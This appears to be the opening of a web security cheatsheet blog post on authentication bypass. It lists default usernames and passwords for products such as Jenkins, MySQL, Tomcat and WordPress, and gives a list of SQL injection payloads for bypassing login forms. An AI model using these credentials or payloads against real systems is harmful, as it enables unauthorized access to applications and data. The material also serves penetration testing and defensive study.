 ```yaml
---
layout: post
title: Authentication Bypass
date: 2025-04-10 17:14 +0300
categories: [Web Security, Server-Side Attacks]
tags: [authentication]
---
```


## Introduction

Authentication bypass vulnerabilities allow attackers to gain unauthorized access to systems by circumventing authentication mechanisms. This cheatsheet covers common techniques used to bypass authentication in various applications and frameworks.

## Bypass Techniques by Category

### 1. Default/Weak Credentials

| Application | Default Username | Default Password |
|-------------|-----------------|------------------|
| Cisco Routers | admin | admin |
| Jenkins | admin | password |
| MySQL | root | (blank) |
| Oracle Database | system | manager |
| Tomcat | admin | admin |
| WordPress | admin | admin |
| XAMPP | admin | (blank) |

### 2. SQL Injection Authentication Bypass

#### Basic SQL Injection Payloads

```sql
' OR 1=1 --
' OR '1'='1' --
' OR 1=1 #
" OR 1=1 --
" OR "1"="1" --
' OR '1'='1' /*
admin' --
admin' #
admin'/*
admin' OR '1'='1
admin' OR '1'='1' --
admin' OR '1'='1' #
admin' OR '1'='1' /*
```
